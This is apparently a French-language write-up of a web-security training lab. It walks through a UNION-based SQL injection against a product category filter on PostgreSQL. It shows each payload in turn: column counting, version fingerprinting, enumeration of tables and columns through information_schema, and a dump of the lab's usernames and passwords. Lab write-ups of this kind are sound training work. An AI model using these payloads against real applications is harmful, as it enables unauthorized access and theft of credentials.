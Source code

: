           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the
table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

On récupère le nombre de colonnes ajoutant à la fin de la requête :
```
'ORDER BY 1--
'ORDER BY 2--
'ORDER BY 3-- = internal server error
```
Nous avons donc 2 colonnes.

On vérifie la compatibilité des colonnes avec le format string :
```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```
Les 2 colonnes sont compatibles.

On cherche ensuite sous quel type et quelle version tourne la database :
'UNION SELECT NULL,@@version-- = internal server error
'UNION SELECT NULL,version()-- = OK
On apprend donc que la database visée est sous PostgreSQL 12.11 : 
PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu,
compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit

Avec ces informations, on peut ensuite chercher le nom des tables. La documentation de PostgreSQL fournit des noms de colonne
par défaut pour l'information schema : https://www.postgresql.org/docs/12/infoschema-columns.html
tentons d'utiliser table_name et column_name : 

'UNION SELECT table_name,NULL FROM information_schema.tables--

Quelques noms de tables interessants font surface :
- pg_user
- users_inhaeu
- pg_database
- user_mappings

On peut essayer de récupérer les colonnes de ces différentes tables :
'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user'--

On y trouve d'autres colonnes que l'on pourrait tenter de récupérer :
- username
- passwd

```
'UNION SELECT passwd,NULL FROM pg_user--
```

On aperçoit un mot de passe, mais caché. surement un piège du lab pour indiquer subtilement qu'on est pas
sur la bonne piste. Après quelques tentatives infructueuses, je suis passé sur la seconde table :

'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_inhaeu'--

Résultat concluant, on tombe sur deux colonnes :
username_iqcpbt
password_avjxlc

'UNION SELECT password_avjxlc,username_iqcpbt FROM users_inhaeu--
Il s'agit cette fois-ci des bonnes colonnes, la page affiche :

9drt170gxf4rfszt99yr
wiener
pwahxf3nu0ou3llzqz5w
carlos
********************
administrator

Il suffit de se log en administrateur afin de terminer le lab.